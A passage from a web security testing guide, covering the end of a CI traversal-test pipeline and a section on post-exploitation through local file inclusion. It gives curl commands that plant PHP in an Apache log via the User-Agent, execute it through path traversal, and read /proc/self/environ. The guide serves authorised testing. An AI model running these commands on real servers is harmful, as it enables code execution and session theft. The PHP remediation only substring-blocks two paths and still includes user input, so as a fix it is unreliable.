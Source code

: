    ```yaml
     script:
       - pip install requests
       - python traversal_test.py
       - bash traversal_test.sh
     artifacts:
       paths:
         - traversal_report.json
   ```

**Remediation**:
- Ensure CI/CD pipelines fail on detected vulnerabilities to enforce fixes.

**Tip**: Save JSON reports and pipeline logs. Organize findings in a report with timestamps and evidence of vulnerabilities.

### 14. Test Post-Exploitation via LFI (Log File Inclusion and Session Hijacking)

**Objective**: Evaluate post-exploitation risks of LFI, such as log file inclusion or session hijacking.

**Steps**:
1. Identify an LFI vulnerability (e.g., `index.php?file=../../../../var/log/apache2/access.log`).
2. Test log file inclusion by injecting a malicious User-Agent (with permission):
   ```bash
   curl -i "http://example.com/index.php?file=../../../../var/log/apache2/access.log" -A "<?php phpinfo(); ?>"
   ```
3. Access the log file via LFI to execute the injected code:
   ```bash
   curl -i "http://example.com/index.php?file=../../../../var/log/apache2/access.log"
   ```
4. Test session hijacking via `/proc/self/environ`:
   ```bash
   curl -i "http://example.com/index.php?file=../../../../proc/self/environ"
   ```
5. Analyze responses; expected secure response blocks log and environment file access.

**Example Secure Response**:
```
HTTP/1.1 403 Forbidden
Content-Type: text/html
<h1>Access Denied</h1>
<p>File access restricted.</p>
```

**Example Vulnerable Response**:
```
HTTP/1.1 200 OK
Content-Type: text/html
[PHP info output or environment variables like PHPSESSID]
```

**Remediation**:
- Restrict log and system file access (PHP):
  ```php
  <?php
  $file = $_GET['file'];
  if (strpos($file, '/var/log') !== false || strpos($file, '/proc') !== false) {
      http_response_code(403);
      echo json_encode(['error' => 'System files restricted']);
      exit;
  }
  include "Pages/$file";
  ?>
  ```
